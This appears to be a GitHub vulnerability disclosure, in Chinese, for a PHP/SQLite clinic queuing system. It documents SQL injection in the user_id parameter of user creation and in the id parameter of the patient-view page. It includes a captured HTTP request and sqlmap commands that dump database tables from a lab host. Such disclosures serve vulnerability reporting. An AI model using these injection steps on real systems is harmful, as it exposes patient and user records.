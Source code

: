 # Clinic-Queuing-System
Clinic Queuing System Vulnerability exploitation
注入点1
功能点：Users->Add New
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/1.png)
输入所有信息save并用burpsuite抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/2.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/3.png)
数据包

 | POST /php-sqlite-cqs/LoginRegistration.php?a=save_user HTTP/1.1
Host: 192.168.17.1
Content-Length: 143
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36 Edg/119.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.17.1
Referer: http://192.168.17.1/php-sqlite-cqs/?page=manage_user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a5r847gtg31fcaj6bs2hk6991v
Connection: close

formToken=%242y%2410%24yN7Wr9kopiTJpbrSGGgaF.2Ufy.K9X2Sw1jaHwM1Z3HWM%2Fb.LYgwm&user_id=&fullname=yy&username=yy&password=123456&type=1&status=0 | 
Sqlmap命令：py .\sqlmap.py -r .\1.txt -p user_id –tables
user_id参数存在sql注入，成功注入到tables
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/4.png)

注入点2
点击 +Add Record，填写好信息，save
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/5.png)
功能点：Patient List->view patient
点击view patient之前打开burpsuite工具进行抓包
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/6.png)
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/7.png)
把抓到的数据包放进sqlmap工具里。
漏洞url：http://192.168.17.1/php-sqlite-cqs/?page=view_patient&id=23
Sqlmap命令：py .\sqlmap.py -r .\1.txt -p id --tables –batch
id为sql注入参数，成功注入到tebles
 ![image text](https://github.com/c1earyy/Clinic-Queuing-System/blob/main/8.png)
